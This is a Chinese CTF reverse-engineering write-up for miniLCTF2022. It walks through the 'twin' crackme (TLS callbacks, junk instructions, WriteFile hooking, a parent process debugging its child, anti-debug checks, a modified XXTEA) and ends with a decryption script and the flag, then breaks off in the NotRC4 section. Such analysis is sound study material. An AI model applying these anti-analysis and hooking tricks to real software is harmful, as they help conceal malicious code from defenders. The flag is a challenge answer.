


# miniLCTF2022

## Reverse

### twin | 云之君

#### Tip1：fake flag

IDA打开，看主函数。
``` c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char input[100]; // [esp+0h] [ebp-90h] BYREF
  char v5[33]; // [esp+64h] [ebp-2Ch]
  char v6[7]; // [esp+85h] [ebp-Bh] BYREF
  int i; // [esp+8Ch] [ebp-4h]

  v5[0] = 38;
  v5[1] = 17;
  v5[2] = 8;
  v5[3] = 35;
  v5[4] = 26;
  v5[5] = 8;
  v5[6] = 28;
  v5[7] = 39;
  v5[8] = 3;
  v5[9] = 25;
  v5[10] = 26;
  v5[11] = 43;
  v5[12] = 10;
  v5[13] = 29;
  v5[14] = 4;
  v5[15] = 30;
  v5[16] = 8;
  v5[17] = 49;
  v5[18] = 25;
  v5[19] = 4;
  v5[20] = 2;
  v5[21] = 25;
  v5[22] = 54;
  v5[23] = 1;
  v5[24] = 20;
  v5[25] = 57;
  v5[26] = 4;
  v5[27] = 59;
  v5[28] = 5;
  v5[29] = 3;
  v5[30] = 10;
  v5[31] = 5;
  v5[32] = 0;
  qmemcpy(v6, "81=<{xy", sizeof(v6));
  memset(input, 0, sizeof(input));
  print("Please input your flag: ");
  scanf("%s", (char)input);
  for ( i = 0; i < 40 && (i ^ input[i] ^ 0x7F) == v5[i]; ++i )
    ;
  if ( i == 40 )
    print("correct\n");
  else
    print("wrong\n");
  return 0;
}
```

> ☁️：真的这么白给🐎？

兴冲冲地写个脚本解，发现被耍了，是假的。

好吧，那重新来。

#### Tip2：TLS回调函数

去试着输入一下跑出来的假flag，会报wrong，那么说明main函数里的验证逻辑实际上是没有用上的。这样的话验证逻辑就只能在main函数之前，可以推测是TLS回调函数。
去翻导出表，果然有，直接定位。

#### Tip3：花指令

发现不能F5，后面拖了一堆红的，显示堆栈指针不平衡。感觉那堆`call $+5`的函数有点抽象，于是去搜了一下，发现是花指令。

```assembly
.text:0040199C                 call    $+5
.text:004019A1                 add     [esp+12Ch+var_12C], 1Eh
.text:004019A5                 retn
.text:004019A5 TlsCallback_0   endp ; sp-analysis failed
.text:004019A5
.text:004019A5 ; ---------------------------------------------------------------------------
.text:004019A6 aWelcomeTo2022M db 'Welcome_to_2022_miniLCTF',0
.text:004019BF ; ---------------------------------------------------------------------------
```

第一句是调用当前地址+5处的函数，也就是[40199C+5]，即[4019A1]，也就是下一句。这一句执行的指令也就是将下一句指令的地址(4019A1)压栈，作为这个call的返回地址，然后执行下一句代码
下一句给[esp+12Ch+var_12C]加了0x1e，这里var_12C可以在最上面找到，是-0x12c。所以说这句指令就是给[esp]，也就是上一个call指令的返回地址加了0x1e，通过这种手段直接修改了函数的返回地址，以此来达到控制程序执行和插入花指令的目的。
下一句retn，返回地址是0xA1 + 0x1E = '0xbf'，也就是那一串字符串的下面。所以从9c到bf处的指令全部是无用指令，全部扬了就行。

然后因为这个retn干扰了IDA对于函数结束地址的判断（IDA认为retn处就是TLS的结束地址了），所以需要手动修改一下TLS的结束地址。
找下一个函数的开始地址，因为函数之间肯定是相连的，中间不可能断开。
找到下一个函数是sub_401D60，那么就确定TLS的结束地址是401D60。
光标放在TLS函数内，按alt+p，End address改成401D60，确定，然后就可以F5了。

#### Tip4：XXTEA

TLS的伪代码如下：

``` cpp
void __cdecl TlsCallback_0(int a1, int a2)
{
  struct _PEB *v2; // eax
  char *v3; // eax
  char Buffer[80]; // [esp+Ch] [ebp-11Ch] BYREF
  struct _STARTUPINFOA StartupInfo; // [esp+5Ch] [ebp-CCh] BYREF
  struct _PROCESS_INFORMATION ProcessInformation; // [esp+A0h] [ebp-88h] BYREF
  char input_flag[22]; // [esp+B4h] [ebp-74h] BYREF
  char v9[4]; // [esp+CAh] [ebp-5Eh] BYREF
  char close_debug[44]; // [esp+D0h] [ebp-58h] BYREF
  char correct[12]; // [esp+FCh] [ebp-2Ch] BYREF
  CHAR Name_FLAG[8]; // [esp+108h] [ebp-20h] BYREF
  CHAR ApplicationName_tmp[8]; // [esp+110h] [ebp-18h] BYREF
  char wrong[8]; // [esp+118h] [ebp-10h] BYREF
  char Format[7]; // [esp+120h] [ebp-8h] BYREF
  char v16; // [esp+127h] [ebp-1h]

  if ( a2 == 1 )
  {
    memset(Buffer, 0, sizeof(Buffer));
    print_(Buffer);
    v16 = 0;
    v2 = NtCurrentPeb();
    LOBYTE(v2) = v2->BeingDebugged;
    v16 = (char)v2;
    if ( !(_BYTE)v2 )
      *(int (__cdecl **)(int, int))((char *)&TlsCallbacks + (_DWORD)v2) = (int (__cdecl *)(int, int))sub_401D60;
    strcpy(Name_FLAG, "93>8");
    xor_0x7f(Name_FLAG);
    hObject = CreateFileMappingA(0, 0, 4u, 0, 0x1000u, Name_FLAG);
    *(_DWORD *)input = MapViewOfFile(hObject, 0xF001Fu, 0, 0, 0x1000u);
    input_flag[0] = 47;
    input_flag[1] = 19;
    input_flag[2] = 26;
    input_flag[3] = 30;
    input_flag[4] = 12;
    input_flag[5] = 26;
    input_flag[6] = 95;
    input_flag[7] = 22;
    input_flag[8] = 17;
    input_flag[9] = 15;
    input_flag[10] = 10;
    input_flag[11] = 11;
    input_flag[12] = 95;
    input_flag[13] = 6;
    input_flag[14] = 16;
    input_flag[15] = 10;
    input_flag[16] = 13;
    input_flag[17] = 95;
    input_flag[18] = 25;
    input_flag[19] = 19;
    input_flag[20] = 30;
    input_flag[21] = 24;
    strcpy(v9, "E_");
    v3 = (char *)xor_0x7f(input_flag);
    print_(v3);
    Format[0] = 90;
    Format[1] = 12;
    Format[2] = 0;
    xor_0x7f(Format);
    scanf_1(Format, *(_DWORD *)input, 41);
  }
  if ( !a2 )
  {
    ApplicationName_tmp[0] = 81;
    ApplicationName_tmp[1] = 80;
    ApplicationName_tmp[2] = 11;
    ApplicationName_tmp[3] = 18;
    ApplicationName_tmp[4] = 15;
    ApplicationName_tmp[5] = 0;
    xor_0x7f(ApplicationName_tmp);
    sub_401410();
    memset(&StartupInfo, 0, sizeof(StartupInfo));
    StartupInfo.cb = 68;
    CreateProcessA(ApplicationName_tmp, 0, 0, 0, 0, 3u, 0, 0, &StartupInfo, &ProcessInformation);
    correct[0] = 28;
    correct[1] = 16;
    correct[2] = 13;
    correct[3] = 13;
    correct[4] = 26;
    correct[5] = 28;
    correct[6] = 11;
    correct[7] = 117;
    correct[8] = 0;
    wrong[0] = 8;
    wrong[1] = 13;
    wrong[2] = 16;
    wrong[3] = 17;
    wrong[4] = 24;
    wrong[5] = 117;
    wrong[6] = 0;
    close_debug[0] = 47;
    close_debug[1] = 19;
    close_debug[2] = 26;
    close_debug[3] = 30;
    close_debug[4] = 12;
    close_debug[5] = 26;
    close_debug[6] = 95;
    close_debug[7] = 28;
    close_debug[8] = 19;
    close_debug[9] = 16;
    close_debug[10] = 12;
    close_debug[11] = 26;
    close_debug[12] = 95;
    close_debug[13] = 11;
    close_debug[14] = 23;
    close_debug[15] = 26;
    close_debug[16] = 95;
    close_debug[17] = 27;
    close_debug[18] = 26;
    close_debug[19] = 29;
    close_debug[20] = 10;
    close_debug[21] = 24;
    close_debug[22] = 24;
    close_debug[23] = 26;
    close_debug[24] = 13;
    close_debug[25] = 95;
    close_debug[26] = 30;
    close_debug[27] = 17;
    close_debug[28] = 27;
    close_debug[29] = 95;
    close_debug[30] = 11;
    close_debug[31] = 13;
    close_debug[32] = 6;
    close_debug[33] = 95;
    close_debug[34] = 30;
    close_debug[35] = 24;
    close_debug[36] = 30;
    close_debug[37] = 22;
    close_debug[38] = 17;
    close_debug[39] = 117;
    close_debug[40] = 0;
    sub_401510(ApplicationName_tmp, (int)&ProcessInformation);
    if ( dword_404440 == 1 )
    {
      sub_4012C0(*(_DWORD *)input + 20, 5, &unk_40405C);
      if ( !memcmp((const void *)(*(_DWORD *)input + 20), &unk_40402C, 0x14u) )
      {
        xor_0x7f(correct);
        print_(correct);
LABEL_13:
        CloseHandle(hObject);
        return;
      }
    }
    else if ( dword_404440 == -2 )
    {
      xor_0x7f(close_debug);
      print_(close_debug);
      goto LABEL_13;
    }
    xor_0x7f(wrong);
    print_(wrong);
    goto LABEL_13;
  }
}
```

那个异或0x7f的函数就是对一些字符串和函数名之类的东西做了一些隐藏，这样就不能通过字符串定位主函数逻辑。一些主要函数和字符串我重命名写在下划线之后。
前面的太抽象看不懂，放着先看后面。
32行开始是初始化欢迎语的字符串，56行打印欢迎语（v3）。
Format是格式化字符串%s，和input、41一起作为参数传入61行。就是输入%s，存在input里，长度为40（结尾是`\0`，占一位）。
如果没有调试，进入if，开始走主逻辑。
直接定位到memcmp函数，sub_4012C0的加密逻辑如下：
``` cpp
int __cdecl sub_4012C0(_DWORD *a1, int a2, int a3)
{
  int v3; // ecx
  int v4; // eax
  int v5; // edx
  int result; // eax
  int v7; // [esp+8h] [ebp-1Ch]
  int v8; // [esp+10h] [ebp-14h]
  unsigned int v9; // [esp+14h] [ebp-10h]
  unsigned int v10; // [esp+1Ch] [ebp-8h]
  unsigned int i; // [esp+20h] [ebp-4h]

  v8 = 52 / a2 + 6;
  v9 = 0;
  v10 = a1[a2 - 1];
  do
  {
    v9 += dword_404058;
    v7 = (v9 >> 2) & 3;
    for ( i = 0; i < a2 - 1; ++i )
    {
      v3 = ((v10 ^ *(_DWORD *)(a3 + 4 * (v7 ^ i & 3))) + (a1[i + 1] ^ v9)) ^ (((16 * v10) ^ (a1[i + 1] >> 3))
                                                                            + ((4 * a1[i + 1]) ^ (v10 >> 5)));
      v4 = a1[i];
      a1[i] = v3 + v4;
      v10 = v3 + v4;
    }
    v5 = (((v10 ^ *(_DWORD *)(a3 + 4 * (v7 ^ i & 3))) + (*a1 ^ v9)) ^ (((16 * v10) ^ (*a1 >> 3))
                                                                     + ((4 * *a1) ^ (v10 >> 5))))
       + a1[a2 - 1];
    a1[a2 - 1] = v5;
    result = v5;
    v10 = v5;
    --v8;
  }
  while ( v8 );
  return result;
}
```

显然是个XXTEA，很明显就是对input的后20位转为数据，然后XXTEA加密与密文比较。拿到密文和key，解出来：`3e90c91c02e9b40b78b}`
显然是只有一半flag。

#### Tip5：hook

跑程序，输两次flag，程序不结束，应该是有sleep，随手扬了sleep然后跑，报wrong，但是如果调试会报correct，所以应当有逻辑没调进去。

戴上痛苦面具，开始分析前面的代码。
从头开始看，20-22行进行一些初始化操作，23-26行检测调试，如果没有调试就进入27行。

27行调用了sub_401D60，此函数的伪代码如下：
``` cpp
void __cdecl sub_401D60(int a1, int a2)
{
  CHAR ModuleName_kernel32_dot_dll[16]; // [esp+0h] [ebp-1Ch] BYREF
  CHAR ProcName_WriteFile[12]; // [esp+10h] [ebp-Ch] BYREF

  if ( a2 == 1 )
  {
    ProcName_WriteFile[0] = 40;
    ProcName_WriteFile[1] = 13;
    ProcName_WriteFile[2] = 22;
    ProcName_WriteFile[3] = 11;
    ProcName_WriteFile[4] = 26;
    ProcName_WriteFile[5] = 57;
    ProcName_WriteFile[6] = 22;
    ProcName_WriteFile[7] = 19;
    ProcName_WriteFile[8] = 26;
    ProcName_WriteFile[9] = 0;
    ModuleName_kernel32_dot_dll[0] = 20;
    ModuleName_kernel32_dot_dll[1] = 26;
    ModuleName_kernel32_dot_dll[2] = 13;
    ModuleName_kernel32_dot_dll[3] = 17;
    ModuleName_kernel32_dot_dll[4] = 26;
    ModuleName_kernel32_dot_dll[5] = 19;
    ModuleName_kernel32_dot_dll[6] = 76;
    ModuleName_kernel32_dot_dll[7] = 77;
    ModuleName_kernel32_dot_dll[8] = 81;
    ModuleName_kernel32_dot_dll[9] = 27;
    ModuleName_kernel32_dot_dll[10] = 19;
    ModuleName_kernel32_dot_dll[11] = 19;
    ModuleName_kernel32_dot_dll[12] = 0;
    xor_0x7f(ProcName_WriteFile);
    xor_0x7f(ModuleName_kernel32_dot_dll);
    hModule = GetModuleHandleA(ModuleName_kernel32_dot_dll);
    dword_4043DC = (int (__stdcall *)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD))GetProcAddress(
                                                                                hModule,
                                                                                ProcName_WriteFile);
    sub_4016C0((int)dword_4043DC, (int)sub_401650, hModule);
  }
  ExitProcess(0xFFFFFFFF);
}
```

导入WriteFile和kernel32.dll，后者是为了注入进程。
34-36行调用GetProcAddress函数获取WriteFile函数的地址存入dword_4043DC，并在sub_4016C0中将这个值修改为sub_401650的地址值。
简而言之，WriteFile函数的地址已经被换掉，所以之后再调用WriteFile，实际上被调用的则是sub_401650，如此来实现一个hook的过程。

sub_401650伪代码：
``` cpp
int __stdcall sub_401650(int a1, int a2, int a3, int a4, int a5)
{
  *(_BYTE *)(a2 + 0x71E) = 6;
  *(_BYTE *)(a2 + 0x6B1) = 6;
  dword_4043DC(a1, a2, a3, a4, a5);
  sub_4017C0((int)dword_4043DC, (int)sub_401650, hModule);
  return 0;
}
```

3-4行是把子进程的两个地方的值改成了6，实际上调试可以发现，改的是xxtea加密过程中z的右移轮次（后面会贴代码），对xxtea进行一次魔改。这里如果不理解，其实可以动态调试出来。
> 啊但是，我只有第一次调出来了，后面再也没成功过。然后DX师傅也是这里调不出来，我们两个和track神整了一晚上也没发现是什么神必问题……track神说他的电脑反正每次调试都正常……

如果跟我和DX师傅有一样的神必问题的话，唯一的方法就是只能自己计算偏移，手动patch子进程了……

#### Tip6：执行子进程

28、29行就是初始化`FLAG`这个字符串。
30行和31行的两个函数不知道干啥的，去翻了下zsky学长的博客，找到一个傀儡进程的题目WP，用到了这两个函数。
`hObject = CreateFileMappingA(0, 0, 4u, 0, 0x1000u, Name_FLAG);`创建名字为FLAG的文件映射对象，用于进程间通信。
`*(_DWORD *)input = MapViewOfFile(hObject, 0xF001Fu, 0, 0, 0x1000u);`存了内存映射文件，便于后面的共享内存。
简而言之，就是创建一个名为FLAG的文件映射对象，把input指向的地址设置成一块共享的内存，这样就可以在子进程里对input这块内存进行修改，实现加密。

继续往下走，72行的`sub_401410()`：
``` cpp
BOOL sub_401410()
{
  CHAR Type_EXERES[8]; // [esp+0h] [ebp-2Ch] BYREF
  CHAR FileName_tmp[8]; // [esp+8h] [ebp-24h] BYREF
  BOOL v3; // [esp+10h] [ebp-1Ch]
  DWORD NumberOfBytesWritten; // [esp+14h] [ebp-18h] BYREF
  HGLOBAL hResData; // [esp+18h] [ebp-14h]
  LPCVOID lpBuffer; // [esp+1Ch] [ebp-10h]
  DWORD nNumberOfBytesToWrite; // [esp+20h] [ebp-Ch]
  HRSRC hResInfo; // [esp+24h] [ebp-8h]
  HANDLE hFile; // [esp+28h] [ebp-4h]

  FileName_tmp[0] = 81;
  FileName_tmp[1] = 80;
  FileName_tmp[2] = 11;
  FileName_tmp[3] = 18;
  FileName_tmp[4] = 15;
  FileName_tmp[5] = 0;
  strcpy(Type_EXERES, ":':-:,");
  xor_0x7f(FileName_tmp);
  xor_0x7f(Type_EXERES);
  hResInfo = FindResourceA(0, (LPCSTR)0x65, Type_EXERES);
  nNumberOfBytesToWrite = SizeofResource(0, hResInfo);
  hResData = LoadResource(0, hResInfo);
  lpBuffer = LockResource(hResData);
  xor_0x55((int)lpBuffer, nNumberOfBytesToWrite);
  hFile = CreateFileA(FileName_tmp, 0xC0000000, 0, 0, 2u, 0x80u, 0);
  NumberOfBytesWritten = 0;
  v3 = WriteFile(hFile, lpBuffer, nNumberOfBytesToWrite, &NumberOfBytesWritten, 0);
  FlushFileBuffers(hFile);
  return CloseHandle(hFile);
}
```

可以看出来是一些文件操作，创建一个名为tmp的文件，然后往里面写入进程。
动态调试到31行（断点下在return处）可以获取到tmp文件。

#### Tip7：子进程分析

去分析tmp文件：
``` cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // ecx
  int result; // eax

  sub_401400(v3);
  if ( sub_4010E0() )
  {
    delta ^= 0x90909090;
    key[1] = 0x90;
  }
  delta = sub_401210(delta);
  sub_401390(dword_4043A8);
  xxtea(dword_4043A8, 5, (int)key);
  if ( !memcmp(dword_4043A8, &dword_404018, 0x14u) )
    result = 1;
  else
    result = -1;
  return result;
}
```

从头开始看，`sub_401400(v3)`：
``` cpp
int __thiscall sub_401400(void *this)
{
  HMODULE hModule; // [esp+0h] [ebp-4h]

  if ( sub_4010F0(this) )
    ExitProcess(0xFFFFFFFE);
  delta ^= 0x12345678u;
  hModule = GetModuleHandleA("Kernel32.dll");
  *(_DWORD *)AddVectoredExceptionHandler = GetProcAddress(hModule, "AddVectoredExceptionHandler");
  return (int)AddVectoredExceptionHandler(0, Handler);
}
```

sub_4010F0(this)是一个检测调试器的函数，检测到当前进程里存在他写的几个程序名称的话就会退出本进程。
之后是对delta进行一个异或操作，然后添加VEH。

往下，`sub_4010E0()`返回`IsDebuggerPresent();`如果处于调试状态就返回非0值，然后对delta和key进行一些操作。
12行，对delta进行一些简单运算。
13行函数：
``` cpp
BOOL __cdecl sub_401390(void *a1)
{
  HANDLE hFileMappingObject; // [esp+8h] [ebp-8h]
  LPCVOID lpBaseAddress; // [esp+Ch] [ebp-4h]

  hFileMappingObject = CreateFileMappingA(0, 0, 4u, 0, 0x1000u, "FLAG");
  lpBaseAddress = MapViewOfFile(hFileMappingObject, 0xF001Fu, 0, 0, 0x1000u);
  qmemcpy(a1, lpBaseAddress, 0x28u);
  UnmapViewOfFile(lpBaseAddress);
  return CloseHandle(hFileMappingObject);
}
```

还是跟上面一样，使用这个名为FLAG的文件映射对象，也就是获取之前的共享内存input。
第8行，把lpBaseAddress指向的数据复制0x28（40位）到a1的地址里，也就是复制到`dword_4043A8`里，然后对这个地址里的值进行xxtea加密（只加密前20位）。

xxtea：
``` cpp
int __cdecl xxtea(_DWORD *v, int n, int key)
{
  int v3; // ecx
  int v4; // eax
  int v5; // edx
  int result; // eax
  int e; // [esp+8h] [ebp-1Ch]
  int rounds; // [esp+10h] [ebp-14h]
  unsigned int sum; // [esp+14h] [ebp-10h]
  unsigned int z; // [esp+1Ch] [ebp-8h]
  unsigned int p; // [esp+20h] [ebp-4h]

  rounds = 52 / n + 6;
  sum = 0;
  z = v[n - 1];
  do
  {
    sum += delta;
    e = (sum >> 2) & 3;
    for ( p = 0; p < n - 1; ++p )
    {
      v3 = ((z ^ *(_DWORD *)(key + 4 * (e ^ p & 3))) + (v[p + 1] ^ sum)) ^ (((16 * z) ^ (v[p + 1] >> 3))
                                                                          + ((4 * v[p + 1]) ^ (z >> 6)));
      v4 = v[p];
      v[p] = v3 + v4;
      z = v3 + v4;
    }
    v5 = (((z ^ *(_DWORD *)(key + 4 * (e ^ p & 3))) + (*v ^ sum)) ^ (((16 * z) ^ (*v >> 3)) + ((4 * *v) ^ (z >> 6))))
       + v[n - 1];
    v[n - 1] = v5;
    result = v5;
    z = v5;
    --rounds;
  }
  while ( rounds );
  return result;
}
```

对照标准xxtea可以发现有一些魔改，z右移5改成了右移6（前面提到过的）。
密文就是dword_404018处的数据，然而直接提取出来解密是错的……
尝试调试tmp，在`sub_4010F0(this)`和`if ( sub_4010E0() )`下断，绕过这两处反调，然后跑到xxtea加密的地方，但是IDA会报错，因为`sub_401210`里有一段汇编触发了异常。
这个函数里有跟之前一样的花指令，随手扬了，改结束地址，F5。

``` cpp
int __cdecl sub_401210(int a1)
{
  MEMORY[0] = 0;
  return (a1 ^ 0x7B) + 12345;
}
```

`MEMORY[0] = 0`拖着大红色，显然是触发了异常。但是我翻了一下SEH，并没有写什么东西，所以感到有些迷茫……
这里F5有可能不正常，可以直接看汇编，汇编直观一些。
``` assembly
.text:00401210 sub_401210      proc near               ; CODE XREF: _main+3A↑p
.text:00401210
.text:00401210 var_4           = dword ptr -4
.text:00401210 arg_0           = dword ptr  8
.text:00401210
.text:00401210                 push    ebp
.text:00401211                 mov     ebp, esp
.text:00401213                 push    ecx
.text:00401214                 push    ebx
.text:00401215                 mov     eax, [ebp+arg_0]
.text:00401218                 xor     eax, 7Bh
.text:0040121B                 add     eax, 3039h
.text:00401220                 mov     [ebp+var_4], eax
//...省略中间一段nop
.text:00401230                 xor     ebx, ebx
.text:00401232                 mov     [ebx], ebx
.text:00401234                 mov     eax, [ebp+var_4]
.text:00401237                 pop     ebx
.text:00401238                 mov     esp, ebp
.text:0040123A                 pop     ebp
.text:0040123B                 retn
```

401230处开始，先把ebx清零，然后去`mov [ebx],ebx`，也就是`MEMORY[0] = 0`，显然非法访问内存了。
然后调试的时候改EIP直接跑到401234处，发现这一处实际上也有异常，因为[ebp+var_4]处的值是对delta一通运算之后得到的值（在401220处赋值），显然这个值不是一个合法的地址，所以也会触发内存访问异常。

但是当时我直接忽略这里了，IDA报错之后discard继续跑，跑出来delta值然后解xxtea，显然解出来还是乱码……

到这里实际上已经分析不下去了，那么继续回去看父进程，观察父进程是怎么调用子进程的。

#### Tip8：子进程调用 & 异常处理

调用子进程是通过133行的s`ub_401510(ApplicationName_tmp, (int)&ProcessInformation);`，函数的伪代码如下：

``` cpp
BOOL __cdecl sub_401510(LPCSTR lpFileName, int a2)
{
  CONTEXT Context; // [esp+Ch] [ebp-33Ch] BYREF
  int v4[23]; // [esp+2D8h] [ebp-70h] BYREF
  HANDLE hThread; // [esp+334h] [ebp-14h]
  int v6; // [esp+338h] [ebp-10h]
  int v7; // [esp+33Ch] [ebp-Ch]
  int v8; // [esp+340h] [ebp-8h]
  int v9; // [esp+344h] [ebp-4h]

  v4[22] = *(_DWORD *)a2;
  hThread = *(HANDLE *)(a2 + 4);
  v6 = *(_DWORD *)(a2 + 8);
  v7 = *(_DWORD *)(a2 + 12);
  v9 = 1;
  while ( v9 )
  {
    WaitForDebugEvent(&DebugEvent, 0xFFFFFFFF);
    if ( DebugEvent.dwDebugEventCode == 1 )
    {
      qmemcpy(v4, &DebugEvent.u, 0x54u);
      v8 = v4[0];
      if ( v4[0] == 0xC0000005 )
      {
        memset(&Context, 0, sizeof(Context));
        Context.ContextFlags = CONTEXT_FULL;
        GetThreadContext(hThread, &Context);
        Context.Eip += 5;
        Context.Eax ^= 111111u;
        SetThreadContext(hThread, &Context);
      }
    }
    if ( DebugEvent.dwDebugEventCode == 5 )
    {
      dword_404440 = DebugEvent.u.Exception.ExceptionRecord.ExceptionCode;
      v9 = 0;
    }
    ContinueDebugEvent(DebugEvent.dwProcessId, DebugEvent.dwThreadId, 0x10002u);
  }
  return DeleteFileA(lpFileName);
}
```

18行WaitForDebugEvent表明父进程调用子进程是以调试方式打开，也就是说父进程调试子进程，所以实际上子进程的反调试是不能绕过的，正常执行程序应该会进入子进程的if语句，对key和delta进行一些魔改运算。
23行，0xC0000005，如果看过我在bbs发的关于windows异常处理的帖子，应该对这个数字很熟悉 ~~（呜呜呜有人看吗有人看吗）~~ ，这是一个异常代码，代表`EXCEPTION_ACCESS_VIOLATION`，内存访问异常，也即子进程中触发的异常。

我之前在[windows-SEH学习笔记](https://www.yunzh1jun.com/2022/04/12/WindowsSEH/)动态调试的部分里写过
> 进程在运行过程中发生异常时，操作系统会委托进程自身处理。如果进程自身有相关的异常处理（比如SEH），那么就由程序自身处理，否则OS启动默认的异常处理机制，终止程序，也就是上面说到的过程。
>而当程序处于调试状态时，调试者拥有被调试者的所有权限（读写内存、寄存器等），所以 调试过程中的任何异常都要先交由调试者处理，而不会流转到正常的异常处理过程。 这样就增加了调试的难度。

也就是说，子进程被父进程调试，当子进程发生异常，应当交由调试者（父进程）处理。所以当子进程中触发异常，程序就会流回父进程，判断是否为内存访问异常，如果是，就对eip和eax做出相应修改。

再回去看子进程触发异常的地方，eip+5之后正好跳过了会触发异常的地方。而eax里存储的实际上是delta经过一通魔改运算之后的结果。也就是说，delta不仅在子进程里被修改，还会在父进程里异或一次111111。

#### Tip9：前一半flag解密

至此，程序的所有流程分析完毕，可以写脚本解密了。
``` c
#include <stdio.h>
#include <stdint.h>
//miniLctf{cbda59ff59e3e90c91c02e9b40b78b}
#define DELTA 0x1c925d64

#define MX (((z>>6^y<<2) + (y>>3^z<<4)) ^ ((sum^y) + (key[(p&3)^e] ^ z)))

uint32_t k[4]= {0x12,0x90,0x56,0x78};

void xxtea(uint32_t* v, int n, uint32_t* key)
{
    unsigned int sum,z,p,y;
    int e, rounds;
    rounds = 6 + 52/n;
    sum = rounds * DELTA;
    y = v[0];
    do
    {
        e = (sum >> 2) & 3;
        for (p=n-1; p>0; p--)
        {
            z = v[p-1];
            y = v[p] -= MX;
        }
        z = v[n-1];
        y = v[0] -= MX;
        sum -= DELTA;
    }
    while (--rounds);
}

int main()
{
    uint32_t v[5] = {0x6b7ce328,0x4841d5dd,0x963784dc,0xef8a3226,0x776b226};
    int n = 5;

    xxtea(v, n, k);

    int i;
    for(i=0;i<5;i++)
    {
        printf("%c",v[i]&0xff);
        printf("%c",v[i]>>8&0xff);
        printf("%c",v[i]>>16&0xff);
        printf("%c",v[i]>>24&0xff);
    }
    return 0;
}
```

### NotRC4 | 云之君

linux里file查一下，RISC-V架构的，可以用ghidra反编译。
~~虽然反编译出来的代码依然有亿点抽象，但是也只有这个能用了~~

``` c
undefined8 main(void)

{
  undefined8 uVar1;
  undefined8 local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined8 local_60;
  undefined8 local_58;
  undefined8 local_50;
  undefined8 local_48;
  undefined8 local_40;
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  longlong local_18;
  
  local_18 = __stack_chk_guard;
  local_80 = 0;
  local_78 = 0;
  local_70 = 0;
  local_68 = 0;
  local_60 = 0;
  local_58 = 0;
  local_50 = 0;
  local_48 = 0;
  local_40 = 0;
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  FUN_00100740("Input your flag",0);
  FUN_00100720(&DAT_00100d78,&DAT_001020e8);
  FUN_00100828(&local_80);
  FUN_00100934(&local_80);
  FUN_00100760("Right!");
  uVar1 = 0;
  if (__stack_chk_guard != local_18) {
    FUN_00100730(0);
  }
  return uVar1;
}
```

FUN_00100720就是`scanf("%16s",DAT_001020e8)`

FUN_00100828：

``` c
